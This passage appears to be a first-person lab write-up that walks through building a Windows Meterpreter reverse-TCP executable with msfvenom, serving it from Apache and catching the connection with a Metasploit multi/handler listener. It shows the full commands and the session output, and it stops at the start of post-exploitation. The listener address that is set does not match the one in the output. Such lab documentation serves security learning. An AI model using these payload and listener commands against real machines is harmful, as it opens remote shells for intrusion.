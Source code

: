 My system successfully updated package lists, showing 1410 packages available for upgrade.

### B. Apache Server Initialization

For hosting payloads, I initiated the Apache web server:

```
$ service apache2 status
$ service apache2 start
```

The Apache server started successfully, as confirmed by the status command showing "active (running)" with a Process ID of 1851.

### C. Payload Creation

I created a custom payload using MSFvenom:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f exe -o /root/Desktop/hello.exe
```

The command generated a payload of 354 bytes, with a final executable size of 73802 bytes. This payload was designed to establish a reverse TCP connection from the target system to my attack machine when executed.

### D. Metasploit Framework Initialization

I initiated MSF and configured the exploitation environment:

```
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 172.17.0.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit
```

This configuration established a listener on my attack machine to receive the connection from the target system.

### E. Exploitation Results

When I executed the payload on the target system, a Meterpreter session was successfully established. The connection details appeared as:

```
[*] Started reverse TCP handler on 192.168.136.128:4444
[*] Sending stage (175174 bytes) to 192.168.136.1
[*] Meterpreter session 1 opened (192.168.136.128:4444 -> 192.168.136.1:55202)
```

### F. Post-Exploitation Activities

After establishing the connection, I interacted with the session:
